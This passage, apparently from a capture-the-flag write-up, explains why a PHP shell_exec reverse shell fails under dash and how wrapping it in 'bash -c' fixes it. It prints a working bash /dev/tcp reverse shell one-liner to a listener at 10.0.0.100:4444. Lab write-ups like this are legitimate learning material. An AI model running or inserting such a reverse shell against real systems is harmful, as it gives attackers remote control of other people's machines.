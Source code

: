 I started an interactive PHP session and emulated this functionality.

```console
ubuntu@picklerick:~$ php -a
Interactive mode enabled

php > echo(shell_exec("bash -i >& /dev/tcp/10.0.0.100/4444 0>&1"));
sh: 1: Syntax error: Bad fd number
php > 
```

Bad fd number? At first I was confused, but then as I thought about it I figured it must be referring to the stderr or stdout file descriptors referenced in the command. I needed more information though; the 0 and 1 seemed to be in the correct place.

I found [this answer](https://unix.stackexchange.com/a/407800) on the UNIX & Linux Stack Exchange:
> `>&` is the **csh** syntax (also supported by `zsh` and recent versions of `bash`) to redirect both stdout and stderr to a file.

I found another unrelated post (I, of course, cannot find as I'm writing this) that provided me with a bit more context: _/bin/sh_ is usually mapped to _/bin/dash_, and _/bin/dash_ does not support this syntax.

Using [this command](https://stackoverflow.com/a/3327108), let's see what shell gets used by `shell_exec`.

```console
php > echo(shell_exec("ps -p $$"));
  PID TTY          TIME CMD
 2121 pts/0    00:00:00 sh
php > 
```

 It's `sh`, and it's mapped to `dash` too.

```console
$ ls -al /bin/sh
lrwxrwxrwx 1 root root 4 Nov  3 22:06 /bin/sh -> dash
```

 That explains why my shell kept failing; and why to make it work you have to double your `bash` command.

```console
bash -c 'bash -i >& /dev/tcp/10.0.0.100/4444 0>&1'
```

When I ran just the single quoted part of the above command, it was executing inside a `dash` shell. `dash` doesn't understand the `>&` syntax to direct the interactive bash shell into. I have to wrap that command inside a `bash -c` so that it executes inside a `bash` shell which _does_ understand the `>&` syntax.

I've come across this before and never had time to investigate. I hope this extra analysis saves someone else the trouble.
